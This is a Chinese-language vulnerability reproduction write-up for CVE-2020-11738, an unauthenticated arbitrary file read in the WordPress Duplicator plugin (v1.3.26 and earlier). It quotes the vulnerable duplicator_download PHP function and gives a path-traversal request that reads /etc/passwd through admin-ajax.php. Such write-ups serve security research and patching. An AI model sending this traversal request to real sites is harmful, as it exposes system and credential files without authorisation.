 # WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738

## 漏洞描述

WordPress Duplicator插件由于对文件下载没有进行验证，则导致了任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>Duplicator <= v1.3.26</a-checkbox></br>

## 插件名

<a-checkbox checked>Duplicator</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip</a-checkbox></br>

## 漏洞复现

首先先查看注册的无需授权的action接口 **wp-content/plugins/duplicator/ctrls/class.web.services.php**

![img](../../../.vuepress/public/img/1638523625856-1b37f8fa-0988-426e-a486-ce3aa4379097.png)

这里 wp_ajax_nopriv_duplicator_download 对应的函数名为 duplicator_download

![img](../../../.vuepress/public/img/1638523732618-c27820f7-da8f-42e7-9675-dcdf6dcbd156.png)

```php
public static function duplicator_download() {
        $file = sanitize_text_field($_GET['file']);
        $filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
        // Process download
        if(file_exists($filepath)) {
            // Clean output buffer
            if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
                @ob_clean();
            }

            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));
            flush(); // Flush system output buffer

            try {
                $fp = @fopen($filepath, 'r');
                if (false === $fp) {
                    throw new Exception('Fail to open the file '.$filepath);
                }
                while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
                    echo $data;
                }
                @fclose($fp);
            } catch (Exception $e) {
                readfile($filepath);
            }
            exit;
        } else {
            wp_die('Invalid installer file name!!');
        }
    }
```

可以看到这里接受参数 file，拼接至 $filepath 中，通过调试可以得知 

DUPLICATOR_SSDIR_PATH 为 wp-snapshots 目录，file可控且没有过滤，导致任意文件读取

```php
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1638523863362-cd010b2b-66df-4243-b4e8-5834b6a9ce11.png)